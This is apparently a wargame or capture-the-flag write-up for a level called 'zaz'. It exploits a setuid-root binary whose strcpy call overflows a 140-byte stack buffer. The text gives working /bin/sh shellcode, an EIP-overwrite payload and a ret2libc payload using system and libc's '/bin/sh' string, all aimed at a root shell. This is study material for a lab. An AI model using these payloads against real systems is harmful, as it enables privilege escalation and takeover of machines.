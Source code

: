 # zaz

## Shellcode (2 solutions)

decompile with ghidra

```c
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```

so in use_me or whatever that binary is named oh right its exploit_me, oh boy
anyway
there're at least two methods solve this.

both methods essentially open a shell, now the exploit_me binary belongs to root
so any shell it opens will be opened as root and will respond accordingly
to a simple check with the "whoami" command

the methods are ret2libc and a simple shellcode, both done through an old
vulnerability of buffer overflow.

ltace/gdb shows that the binary calls for strcpy() of argv[1] the prints it.
Stcpy does no check for length of source of data, copying everything to buff;

re-check with gdb if needed, or just read this or smth: 

https://www.cs.virginia.edu/~evans/cs216/guides/x86.html

TLDR: we have our cpy buffer at *ebx, it's length is 140bytes (check sub instruction
in main, there's an allocation of 144 bytes being the buff + ptr, confirm with 141-length string if needed)

Right after that buff there goes *eip, which contains the address of THE NEXT INSTRUCTION TO BE DONE

so basically we can overwrite this instruction with smth else, smth that will call for \bin\sh

==============================================================================

1. The first method is a shellcode. Read about it if you want,
basically it's machine code which if executed actially launches a new shell.
So what we can do is for instance export it to env, get it's address and overwrite EIP with it.
Boom, we got it working.


export PEPEGA=`python -c 'print("\x90"*4 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`


./exploit_me python -c "print('A' * 140 + '\xa7\xfe\xff\xbf')"

The address here is changable, each time we export this shit or re-launch the vm the address may and probably will change.
That's ok, we can easily check it with a nice script like this:

#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("%p\n", getenv("PEPEGA"));
}

The 140 being the buff size, so after it's all used up we are effectivly overwriting the EIP value,
making the binary execute smth else.



===============================================================================

2. The second method would be writing actual system("\bin\sh")
Now, gdb allows us to do get all the info we need to do it.

We find "system"'s addres fairly easy, we just need to launch the binary and ask gdb nicely

> p system
> address

Now making it eat "bin\sh" has proven to be a bit more of a fuss, all my attempts to feed it as an
env var failed completely for reasons unknown. Then I decided to read through my notes from rainfall
a bit more carefully, only to find that libc actually contains a mention of "bin\sh" in it, an old 
and well known thing.

So we find it's address with this: 

https://wiki.bi0s.in/pwning/return2libc/return-to-libc/


info proc map < - prints all the mapped addresses as intervals for currently launched binary
now, the binary having libc has all of it mapped.
including the "bin\sh" string.

we will have smth like this in our results:

0xf7e20000 0xf7fcd000   0x1ad000        0x0 /home/vignesh/Documents/libc.so.6
0xf7fcd000 0xf7fce000     0x1000   0x1ad000 /home/vignesh/Documents/libc.so.6
0xf7fce000 0xf7fd0000     0x2000   0x1ad000 /home/vignesh/Documents/libc.so.6
0xf7fd0000 0xf7fd1000     0x1000   0x1af000 /home/vignesh/Documents/libc.so.6

being the libc mapped and all it's addresses

So, what we have left to do is this:

(gdb) find 0xf7e20000, 0xf7fd1000 , "/bin/sh"
with first address being the beginning of first libc part, second address being the last libc part

1 pattern found.
(gdb) x/s 0xf7f78e8b
0xf7f78e8b: "/bin/sh"

(yeah, that's from the article, in vm we will have smth else)

The actual result brings us to the following: 


./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "pepe" + "\x58\xcc\xf8\xb7"')

Here we see the 140 bytes again to overwrite the buffer, next therese's an address of "system",
that goes into iep. Yet we don't stop, after system launches, it will look into the memory for the
following things: exit fucntion address, string argument address.

Now, disas system if you want, I simply did read it in the same article and assumed it was true,
anyway, TLDR: that's what system does, so first we need to write 4 bytes, we can actually
write an address of some function here to make it work properly, but used a 4 bytes of "pepe",
coz who doesn't like pepe, right?

Anyway, then we get the string arg address, and that is the one of "bin/sh" from libc, it doesn't really
care where it comes from, it just need to read the line.

boom, we r root.